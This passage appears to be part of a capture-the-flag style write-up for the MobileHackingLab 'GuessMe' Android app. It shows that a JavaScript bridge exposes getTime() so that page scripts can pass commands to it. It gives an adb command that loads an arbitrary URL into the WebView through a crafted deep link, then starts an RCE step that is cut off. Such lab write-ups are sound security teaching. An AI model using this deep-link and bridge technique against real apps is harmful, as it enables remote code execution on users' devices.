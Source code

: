 ```java
}
```

The `getTime()` method is **exposed to JavaScript** via:

```
webView.addJavascriptInterface(new MyJavaScriptInterface(), "AndroidBridge");
```

The app allows JavaScript to call:

```
AndroidBridge.getTime("command_here")
```

<br /><br />





### Using adb





to open google.com in the webview

```bash
adb shell am start -a android.intent.action.VIEW  -n com.mobilehackinglab.guessme/.WebviewActivity -d "https://mobilehackinglab?url=http://google.com?any=mobilehackinglab.com"
```

![](/assets/img/mhl/GuessMe/1.png)



<br /><br />

to get RCE:

start python web server

```
python -m http.server
```
